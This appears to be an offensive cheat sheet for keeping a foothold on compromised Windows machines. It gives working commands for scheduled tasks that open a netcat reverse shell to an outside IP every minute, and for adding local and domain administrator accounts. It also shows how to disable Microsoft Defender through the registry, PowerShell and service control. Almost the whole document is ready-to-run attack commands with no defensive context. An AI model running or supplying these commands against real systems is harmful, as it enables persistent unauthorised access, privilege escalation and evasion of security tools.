 # Create task to call every minute to your machine
```bash
# Create general task
schtasks /create /tn "revtask" /sc minute /mo 1 /tr "C:\Users\Public\Documents\nc64.exe 192.168.45.168 4444 -e cmd"

# Create task for user
schtasks /create /tn "RevTask" /tr "cmd /c command-here" /sc minute /mo 1 /ru "Username" /rp "Password"

sc config schedule start= auto
net start schedule
at 13:30 ""C:\nc.exe <ip> 7777 -e cmd.exe""
```
-----------------------

# Create new user
```bash
# Local User
net user sombi Password /add
net localgroup Administrators sombi /add

net user sombi Password /domain /add
net group "Domain Admins" NewUser /add
```
-----------------------

# Disable Antivirus
```bash
-- REG Query
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Microsoft Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f

-- Powershell
# To disable it
Set-MpPreference -DisableRealtimeMonitoring $true

# To re-enable it
Set-MpPreference -DisableRealtimeMonitoring $false

-- Services
sc stop WinDefend
sc start WinDefend
```
